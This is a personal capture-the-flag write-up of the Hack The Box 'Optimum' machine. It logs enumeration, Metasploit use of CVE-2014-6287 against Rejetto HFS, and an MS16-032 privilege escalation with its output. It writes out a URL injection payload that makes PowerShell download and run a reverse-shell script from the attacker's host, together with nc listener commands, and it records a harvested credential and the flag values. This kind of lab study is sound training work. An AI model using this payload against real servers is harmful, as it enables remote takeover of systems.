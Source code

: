 ```yaml
---
box: Optimum
date: 2025-09-14
category: Misc
difficulty: Very Easy
tags:
  - codeinjection
  - RCE
  - windows
start: 2025-09-14 13:40
finish: 2025-09-15 18:15

status: in-progress
---
```


# Box Overview – Box-2025-09-14-Optimum

##### Enumeration

- **Timestamp:** 2025-09-14 13:40
- **Action:** nmap to explore host
- **Commands:** `nmap -Av 10.129.196.11`
- **Notes:** See CLI snippet below:
``` PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- **Next Steps:** Clearly a file server. How do we exploit? --> Investigate

##### Finding exploits

- **Timestamp:** 2025-09-14 13:54
- **Action:** Searched databases for particular exploits.
- **Commands:** Google, `msfconsole`
- **Notes:** Found CVE-2014-6287 (specifically for Rejetto http File Server). Also found exploit in metasploit database.
- **Next Steps:** Figure out how to use msf properly here.

##### Exploit Use and User Own

- **Timestamp:** 2025-09-14 14:01
- **Action:** Use existing exploit to exploit web based file service Rejetto.
- **Commands:** `msfconsole`, `search CVE-2014-6287`, `use 0`, `set RHOST <IP>`, `set LHOST <my-ip>`, `run`, `cat user.txt`
- **Notes:** Easy user own and flag.
- **Next Steps:** Privesc to get password et al.

##### Enumeration 2 (1)

- **Timestamp:** 2025-09-14 14:05
- **Action:** Began randomly enumerating but decided because I'm a n00b to use something like hacktricks for a checklist.
- **Commands:** 
	- `getuid`,`uuid`,`sysinfo`, `ps`, `pwd`<->`getwd`,
- **Notes:** 
- Sysinfo dump:
```
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows 
```
- Used `ps` instinctively, shows running processes.
	- Interesting, some guide shows we can migrate to new processes.
	- We migrate to `explorer.exe`

##### Enumerating 2 (2)

- **Timestamp:** 2025-09-14 15:18
- **Action:** Uploaded winPEAS for better enumeration.
- **Commands:** `upload winPEAS.ps1`,`load powershell` (through meterpreter), `powershell_shell`, `./winPEAS.ps1`
- **Notes:** Stuff
- **Next Steps:** Other Stuff

##### Backtracking

- **Timestamp:** 2025-09-14 15:59
- **Action:** Establishing a python shell, meterpeter seems to be fudging winPEAS execution. Also utilize direct RCE through url with classic `%00` inclusion -> metasploit did not explain this, although I'm familiar with this type of vulnerability.
- **Commands:** `http://10.129.196.11/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.14.217/rev.ps1%27).}`, `sudo python3 -m http.server 80`, `sudo rlwrap nc -lnvp 443`, `winPEAS.exe`
- **Notes:** Better reverse shell and visibility of actual exploit.
	- In the future, when looking at webhosted applications, use skills from CWES pathway in HTB academy.
	- Hacktricks, as always, was useful for certain winPEAS related info.
	- Shell established directly to kostas desktop
- **Next Steps:**
	- Enumerate with .exe for passwords, creds, CVEs.

##### Privesc Pathway

- **Timestamp:** 2025-09-14 16:20
- **Action:** Searched through winPEAS output, found interesting creds and potential CVE.
- **Commands:** 
	- `winPEAS.ps1`
- **Notes:** 
	- autologon credential for kostas: `kdeEjDowkS*`
- **Next Steps:** 
	- Multiple payloads researched.
	- Going to try ms16_032_secondary_logon_handle_privesc

##### Success

- **Timestamp:** 2025-09-14 18:55
- **Action:** Ran https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc/
- **Commands:** `mfconsole` with appropriate flags
- **Notes:** 
	- Managed to get root confirmed with `getuid`.
	- Had to change some options related to the shell (established over https)
```
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1372

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $iJkl = [Ntdll]::NtImpersonateThread($ux, $ux, [ref]$gpl4)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (gpl4:VariablePath) [], RuntimeException
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateToken" to type "System.IntPtr": "Cannot co
nvert null to type "System.IntPtr"."
At line:259 char:2
+     $iJkl = [Advapi32]::DuplicateToken($tPnUD, 2, [ref]$kWjZ)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

1Yu8GBJMw5b3UCht4sSqKHsCXk4S0eRL
[+] Executed on target machine.
[+] Deleted C:\Users\kostas\AppData\Local\Temp\okGqjwD.ps1
```
- Obtained root flag with simple `cat`
- Got some wonky shit with the actual reverse shell but hey, I did it.
	- Noticed in some walkthroughs post inspection that various exploits were used.
	- Typical attack path is basically exploiting system privesc after establishing a foothold.
